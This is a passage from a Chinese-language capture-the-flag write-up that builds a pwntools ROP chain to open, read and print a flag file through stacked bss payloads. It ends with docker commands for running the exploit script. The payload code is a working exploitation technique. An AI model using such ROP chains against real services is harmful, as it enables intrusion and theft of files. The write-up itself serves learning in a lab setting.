             syscall_ret,
            main_fn
        )
        r.sendline(file_addr + ROP_open)
        ```
        首先原本的0x20就拿來放檔案的位址，不過為甚麼後面還要再接著bss_addr_write呢?就和上面一樣，我們要寫別的rop payload上去，因為原本的位子不夠寫了，所以syscall_ret後接到main_fn，他會讀取我們寫入的rop payload到bss_addr_read的地方
    4. 寫入bss_addr_read
        我們要達成的目標是==read(fd, buf, 0x30)==，具體payload如下
        ```python
        ROP_read = flat(
            # Read the file
            # read(fd, buf, 0x30);
            bss_addr_write,
            pop_rax_ret, 0,
            pop_rdi_ret, 3, 
            pop_rsi_ret, bss_addr_read,
            pop_rdx_ret, 0x30,
            syscall_ret,
            main_fn
        )
        r.sendline(file_addr + ROP_read)
        ```
    5. 寫入bss_addr_write
        我們要達成的目標是==write(fd, buf, 0x30)==，具體payload如下
        ```python
        ROP_write = flat(
            # Write the file
            # write(1, buf, 0x30);
            bss_addr_write,
            pop_rax_ret, 1,
            pop_rdi_ret, 1,
            pop_rsi_ret, bss_addr_read,
            pop_rdx_ret, 0x30,
            syscall_ret,
            0
        )
        r.sendline(file_addr + ROP_write)
        ```

:::danger
執行的時候如果遇到local端可以run但server爛掉的情況，有可能是raw_input()造成的，可以先註解掉這些東西，如果還是遇到一樣的問題，可以開docker在裡面執行
```bash
$ docker-compose up -d
$ docker ps
$ docker exec -it {container name} /bin/bash
> apt update; apt upgrade -y; apt install curl binutils vim git gdb python3 python3-pip -y
> pip install pwntools -y
> python3 exp.py
```
:::
